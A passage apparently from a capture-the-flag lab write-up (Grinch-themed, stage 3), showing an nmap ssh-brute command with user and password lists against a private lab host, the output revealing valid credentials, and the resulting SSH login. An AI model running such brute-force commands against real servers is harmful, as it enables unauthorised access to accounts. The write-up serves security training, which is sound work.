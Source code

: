 ```shell
nmap -sS -sV -v -n 192.168.1.127 --min-parallelism 150 --min-rate 1000 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords_shuffled.txt,brute.firstonly=true,unpwdb.timelimit=0
```

And let I let this run for a while. However, I did not get any result, even after going through 40 thousand passwords. As the bruteforce would take ages, I ran it in parallel in six screens. Finally after 4 hours, I got a hit!

```shell
Nmap scan report for 192.168.1.127
Host is up (0.00073s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-brute: 
|   Accounts: 
|     tinsel:BEAUTIFUL - Valid credentials
|_  Statistics: Performed 468 guesses in 534 seconds, average tps: 1.1
MAC Address: 08:00:27:06:8F:03 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 23:04
Completed NSE at 23:04, 0.00s elapsed
Initiating NSE at 23:04
Completed NSE at 23:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 534.49 seconds
           Raw packets sent: 3 (116B) | Rcvd: 2 (72B)

```

After logging to the ssh with those credentials, I got this as a result:

```shell
class@ubuntu8:~/bonus$ ssh tinsel@192.168.1.127 -p 22
tinsel@192.168.1.127's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Overheard at KubeCon: "microk8s.status just blew my mind".

     https://microk8s.io/docs/commands#microk8s.status

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


*****************************************************************
<Grinch> Congratulations! This is the end of stage 3!		*		
								*
<Grinch> Look for presents to get instructions for stage 4!	*
*****************************************************************
```